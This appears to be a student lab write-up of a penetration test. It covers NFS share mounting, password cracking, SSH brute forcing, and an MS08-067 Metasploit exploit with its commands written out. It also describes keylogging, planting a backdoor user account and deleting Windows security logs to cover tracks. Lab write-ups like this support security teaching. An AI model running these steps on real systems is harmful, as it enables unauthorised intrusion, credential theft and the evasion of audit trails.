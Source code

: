 			

**Enumeration**

Applications Used: hydra, jtr,nfs mount

Tactics:  The linux NFS share can be mounted by anyone, so we mounted the share and from there we were able to decrypt the hash with John the Ripper  and view old logon information. Then truecrypt was used to mount the truecrypt file on the share revealing a password list. The password list was then used with Medusa to brute force ssh.

**Penetration**

Applications Used:  metasploit framework, armitage

Tactics: to gain access to the windows box via armitage we used the  smb/ms08-67 module which we found through a nessus scan. This exploits a parsing flaw in the path canonicalization code of NetAPI32.dll. 

Msf commands: use exploit/windows/smb/ms08_067 - sets exploit

  		   set LHOST 192.168.2.100 - sets our ip as local host

		   set RHOST 192.168.2.102 - sets windows ip as host to target

		   set RPORT 445 - sets which port to target through 

   set PAYLOAD windows/meterpreter/bind_tcp - this is binding the    meterpreter payload to tcp 

   exploit - launched the exploit against the windows box

**Pillage and plunder**

Applications used:metasploit, armitage

Tactics: From attack ms08_067_netapi we were able to open up a meterpreter shell on the windows machine. Once the meterpreter shell was opened we were able to access the files of the windows machine via meterpreter>explore>browse files. The explore tab also has a key logger which can be implemented on the windows machine, if there was an active host on that machine it would be possible to log all sensitive information the user types (usernames and passwords).

According to our nessus scans there were a number of attacks we could have launched via armitage that would grant us access to this machine. There are also a number of ways in which to access/interact/explore this system once a meterpreter shell has been created. For example interact>vnc will allow an attacker to remotely control a computer just as if he is sitting there. A command shell could also be opened to interact with the machine. In fact we were able to add our own user account to this machine via cmd nethost /add, we can now use this created user account to access the windows machine whenever we want just by logging in.

**Cleanup**

Applications Used: metasploit framework, armitage 

Tactics: From the meterpreter shell opened on the exploited windows box we explored the system32 files and was able to delete all system and security logs clearing our logon attempts and covering our tracks. Before exiting we created user name Werberl with password FioreM this way we no longer have to "exploit" the system to gain access we can just log on remotely using valid credentials.

(Engebretson)

**Hardening Recommendations**
